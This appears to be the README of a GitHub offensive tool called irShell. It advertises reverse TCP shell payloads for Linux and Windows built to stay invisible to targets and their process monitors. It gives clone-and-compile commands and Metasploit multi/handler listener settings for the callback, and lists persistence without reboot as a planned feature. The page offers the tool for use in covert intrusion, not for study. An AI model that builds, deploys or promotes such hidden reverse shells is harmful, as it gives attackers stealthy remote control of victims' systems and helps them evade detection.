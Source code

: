 # irShell
💯% Invisible Reverse TCP Shell Payloads for Linux/Windows 🥷

## About:
What I believe to be an original and effective method for creating reverse TCP payloads that are 100% invisible not only to the target but the target's resource/process monitors. Simple MSFconsole handlers/listeners are then used for callbacks.


## Requirements:

SHC 

```
sudo apt install -y shc
```

Bash

```
sudo apt install -y bash
```
GCC

```
sudo apt install -y gcc
```




## Installation:

```
git clone https://github.com/MBHudson/irShell.git && cd irShell && sudo gcc irShell.c -o irShell && chmod +x irShell
```

## Usage:

```
sudo ./irShell
```

## MSFconsole:

```
set exploit/multi/handler
set PAYLOAD linux/x64/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
run
```

## TODO

- [ ] Persistence without reboot
- [ ] EXE and Shell formats
- [ ] All-in-One built-in installation 
